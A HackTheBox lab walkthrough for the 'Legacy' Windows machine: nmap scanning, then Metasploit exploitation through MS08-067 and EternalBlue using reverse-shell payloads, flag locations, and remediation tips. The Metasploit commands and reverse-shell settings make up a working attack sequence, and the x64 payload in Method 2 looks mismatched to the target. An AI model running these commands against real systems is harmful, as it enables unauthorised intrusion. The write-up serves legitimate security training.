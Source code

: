 # Legacy - HackTheBox Walkthrough

## Machine Information
- **Name**: Legacy
- **Difficulty**: Easy
- **OS**: Windows
- **Date Completed**: May 2022

## Overview
Legacy is an easy Windows machine that demonstrates classic Windows vulnerabilities, particularly focusing on legacy services and protocols.

## Reconnaissance

### Nmap Scan
```bash
nmap -sC -sV -oN legacy.nmap 10.10.10.4
```

Initial scan reveals:
- Port 139/tcp - netbios-ssn
- Port 445/tcp - microsoft-ds

### Service Enumeration
```bash
nmap --script smb-vuln* 10.10.10.4
```

This reveals the machine is vulnerable to:
- MS08-067 (Conficker)
- MS17-010 (EternalBlue)

## Exploitation

### Method 1: MS08-067
Using Metasploit:
```bash
use exploit/windows/smb/ms08_067_netapi
set RHOSTS 10.10.10.4
set payload windows/shell_reverse_tcp
set LHOST your_ip
exploit
```

### Method 2: MS17-010 (EternalBlue)
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.4
set payload windows/x64/shell_reverse_tcp
set LHOST your_ip
exploit
```

## Post-Exploitation

### System Information
```cmd
systeminfo
whoami
```

### Flag Collection
- **User Flag**: Located in `C:\Documents and Settings\john\Desktop\user.txt`
- **Root Flag**: Located in `C:\Documents and Settings\Administrator\Desktop\root.txt`

## Key Learning Points
1. Legacy Windows systems often have unpatched vulnerabilities
2. SMB services are frequent attack vectors
3. MS08-067 and MS17-010 are classic Windows exploits
4. Always verify system architecture before selecting payloads

## Remediation
- Apply security patches regularly
- Disable unnecessary services like SMBv1
- Implement network segmentation
- Use endpoint protection solutions

---
*This walkthrough is for educational purposes only.*
